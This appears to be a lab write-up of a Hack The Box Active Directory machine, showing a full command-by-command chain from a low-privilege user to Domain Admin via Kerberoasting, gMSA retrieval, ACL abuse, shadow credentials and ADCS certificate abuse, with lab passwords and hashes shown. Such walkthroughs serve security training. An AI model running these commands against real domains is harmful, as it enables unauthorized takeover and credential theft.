### Executive Summary

This penetration test demonstrates a complete attack chain from initial domain user access to Domain Administrator through Active Directory misconfigurations. The attack exploits weak Access Control Lists (ACLs), Group Managed Service Account (gMSA) password retrieval, and Active Directory Certificate Services (ADCS) vulnerabilities to achieve full domain compromise.

**Attack Path:** henry → alfred → ansible_dev$ → sam → john → cert_admin → administrator
## Nmap Scan
```bash
sudo nmap -sV -sC 10.129.232.167 -p- -Pn -A 
```




The given credentials for the pentesting **henry / H3nry_987TGV!**

Running bloodhound for info Gathering which maps all relationships, permissions, and potential attack paths in the domain. It collects:
```bash
bloodhound-python -u henry -p "H3nry_987TGV!" -d tombwatcher.htb -dc DC01.tombwatcher.htb -ns 10.129.232.167 -c All
```



Henry have WriteSPN wites on **ALFRED** before Targeted kerberoasting .

```bash
sudo ntpdate 10.129.232.167   
```
Before kerberoasting update clock skew with the server
```bash
python3 targetedKerberoast.py -v -d 'tombwatcher.htb' -u 'henry' -p 'H3nry_987TGV!'
```

```bash
hashcat -m 13100 alfred.txt /usr/share/wordlists/rockyou.tx
```

The recovered hash was cracked using Hashcat, revealing the plaintext password. 




**Alfred : basketball**



**Alfred** has the **AddSelf** right on the **Infrastructure** group, meaning the user `ALFRED@TOMBWATCHER.HTB` can add themselves to the `INFRASTRUCTURE@TOMBWATCHER.HTB` group. Due to security group delegation, members of a security group inherit the same privileges as the group itself.

```bash
python3 -m bloodyAD.main --host DC01.tombwatcher.htb -d tombwatcher.htb -u alfred -p basketball add groupMember INFRASTRUCTURE alfred
```

Verifying User been added Successfully or not 
```bash
net rpc group members "INFRASTRUCTURE" -U "tombwatcher.htb"/"alfred"%"basketball" -S "DC01.tombwatcher.htb"
```




`ANSIBLE_DEV$@TOMBWATCHER.HTB` is a **Group Managed Service Account (gMSA)**. Members of the `INFRASTRUCTURE@TOMBWATCHER.HTB` group are permitted to retrieve its managed password. gMSA passwords are automatically generated and rotated by Domain Controllers, and compromise of an authorized principal allows an attacker to retrieve the password and impersonate the gMSA



```bash
nxc ldap dc01.tombwatcher.htb -u alfred -p basketball --gmsa
```

**Ansible_dev  -  NTLM hashe :- 2669c6ff3a3d9c7472e358c7a792697b****  



**Ansible** has the ability to change the **sam** password w/o knowing the current password 
```bash
impacket-changepasswdtombwatcher.htb/sam@DC01.tombwatcher.htb -newpass 'NewP@ssw0rd!' -altuser 'ansible_dev$'-althash :2669c6ff3a3d9c7472e358c7a792697b 
-reset
```



**sam - NewP@ssw0rd!**
The user `SAM@TOMBWATCHER.HTB` can change the owner of `JOHN@TOMBWATCHER.HTB`, allowing SAM to modify the object’s security descriptors and gain full control over the account regardless of existing DACL permissions.




changing the ownership  of **John** to **Sam** using BloodyAD
```bash
python3 -m bloodyAD.main --host DC01.tombwatcher.htb -d tombwatcher.htb -u sam -p 'NewP@ssw0rd!' set owner john sam
```

Granting **Sam** GenricAll rights over **John** account
```bash
python3 -m bloodyAD.main --host DC01.tombwatcher.htb -d tombwatcher.htb 
-u sam -p 'NewP@ssw0rd!' add genericAll john sam
```

Resetting the John Password using **GernricAll** rights 
```bash
impacket-changepasswd      
tombwatcher.htb/john@DC01.tombwatcher.htb -newpass 'NewP@ssw0rd!'-altuser sam 
-altpass 'NewP@ssw0rd!'-reset
```

**john - NewP@ssw0rd!**



After resetting JOHN’s password, WinRM access was obtained
```bash
nxc winrm 10.129.232.167 -u john -p 'NewP@ssw0rd!' -d tombwatcher.htb 
```



```bash
evil-winrm -i 10.129.232.167 -u john -p 'NewP@ssw0rd!' 
```

Interactive shell as been pawned ! 

## **Privilege Escalation**




John have the Generic all Write on the OU



from the inital enumeration we can see the john is the part adcs 

```bash
certipy-ad find -u john@tombwatcher.htb -p 'NewP@ssw0rd!' -dc-ip 10.129.232.167
```



 A user SID been mentioned the tool so lets enumerate the user from John
```bash
 C:\Users\john\Documents> Get-ADObject -Filter 'objectSid -eq "S-1-5-21-1392491010-1358638721-2126982587-1111"' -Properties *
 ```
 return nothing it might be the user has been removed
 
```bash
*Evil-WinRM* PS C:\Users\john\Documents> Get-ADObject -Filter 'objectSid -eq "S-1-5-21-1392491010-1358638721-2126982587-1111"' -Properties * -IncludeDeletedObjects

```
the cert_admin is under OU 
```bash
Restore-ADOBject -Identity 938182c3-bf0b-410a-9aaa-45c8e1a02ebf

```

restoring the user and verfiying the user been added or not
```bash
Get-ADUser cert_admin
```




The user john@tombwatcher.htb has write permissions on the cert_admin@tombwatcher.htb account, allowing John to inject shadow credentials into cert_admin's msDS-KeyCredentialLink attribute. This enabled certificate-based authentication as cert_admin, resulting in the extraction of cert_admin's NT hash f87ebf0febd9c4095c68a88928755773 and a valid Kerberos TGT. With cert_admin privileges, there is now potential access to exploit Active Directory Certificate Services misconfigurations for further privilege escalation to Domain Administrator.

Using Pywhisker for shadow credential attack
```bash
python3 pywhisker.py -d tombwatcher.htb -u john -p 'NewP@ssw0rd!' --target cert_admin --action add --dc-ip 10.129.232.167
```

```bash
certipy-ad auth -pfx iqX30Hap.pfx -password TvScG0rUD4Ob1mEq8AaT -username cert_admin -domain tombwatcher.htb -dc-ip 10.129.232.167

```
 Check What Permissions as well as any vulnerable certificates in cert_admin 
```bash
 certipy-ad find -u cert_admin -hashes :f87ebf0febd9c4095c68a88928755773 -dc-ip 10.129.232.167 -vulnerable -stdout
 ```
 


 
 Request a certificate from a V1 template, injecting "Certificate Request Agent" Application Policy
```bash
certipy-ad req -u cert_admin@tombwatcher.htb -hashes :f87ebf0febd9c4095c68a88928755773 -ca 'tombwatcher-CA-1' -template 'WebServer' -upn 'administrator@tombwatcher.htb' -sid 'S-1-5-21-1392491010-1358638721-2126982587-500' -dc-ip 10.129.232.167  -application-policies 'Certificate Request Agent'
 ```
 
 Tried to authenticate as the user with pfx which failed 
```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.232.167

```
 


```bash
 certipy-ad req -u cert_admin@tombwatcher.htb -hashes :f87ebf0febd9c4095c68a88928755773 -ca 'tombwatcher-CA-1' -template 'WebServer' -dc-ip 10.129.232.167  -application-policies 'Certificate Request Agent'

 ```
This will request a certificate with the Certificate Request Agent application policy. If successful we can request for the ernrollment agent 

```bash
certipy-ad req -u cert_admin@tombwatcher.htb -hashes :f87ebf0febd9c4095c68a88928755773 -ca 'tombwatcher-CA-1' -template 'User' -on-behalf-of 'tombwatcher\administrator' -pfx cert_admin.pfx -dc-ip 10.129.232.167
```



We gonna authenticate with administrator Hash using winrm
```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.232.167

```

```bash
evil-winrm -i 10.129.232.167 -u administrator -H f61db423bebe3328d33af26741afe5fc
```





